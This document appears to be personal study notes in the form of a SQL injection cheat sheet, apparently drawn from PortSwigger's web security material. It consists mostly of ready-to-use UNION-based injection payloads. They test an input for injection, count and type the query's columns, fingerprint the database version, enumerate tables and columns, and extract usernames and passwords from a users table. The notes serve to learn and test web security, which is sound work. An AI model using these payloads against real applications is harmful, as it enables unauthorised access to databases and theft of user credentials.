 # Portswigger
sql-injection cheat-sheet: https://portswigger.net/web-security/sql-injection/cheat-sheet

## SQLi - UNION Attack
When an application is vulnerable to SQL injection, and the results of the query are returned within the application's responses, you can use the UNION keyword to retrieve data from other tables within the database. This is commonly known as a SQL injection UNION attack.

Note: don't forget to use url encoding

### Test for SQLi
~~~
jeremy'
jeremy"

jeremy' or 1=1#
jeremy' or 1=1--

jeremy' or 1=2--
~~~


### Number of columns
~~~
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
~~~

finding oclumns with a useful data type
~~~
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
~~~


### Database version
~~~
Oracle 	SELECT banner FROM v$version
        SELECT version FROM v$instance

Microsoft 	SELECT @@version

PostgreSQL 	SELECT version()

MySQL 	    SELECT @@version
~~~

~~~
' UNION SELECT NULL,NULL,version()#
~~~

### Database tables
~~~
Oracle 	    SELECT * FROM all_tables
            SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'

Microsoft 	SELECT * FROM information_schema.tables
            SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

PostgreSQL 	SELECT * FROM information_schema.tables
            SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

MySQL 	    SELECT * FROM information_schema.tables
            SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
~~~

~~~
' UNION SELECT NULL,NULL,table_name from information_schema.tables#
~~~
### Database columns
~~~
' UNION SELECT NULL,NULL,column_name from information_schema.columns#
~~~

### Interesting data
~~~
' UNION SELECT username, password FROM users--
~~~

concatenation
~~~
' UNION SELECT username || '~' || password FROM users--
~~~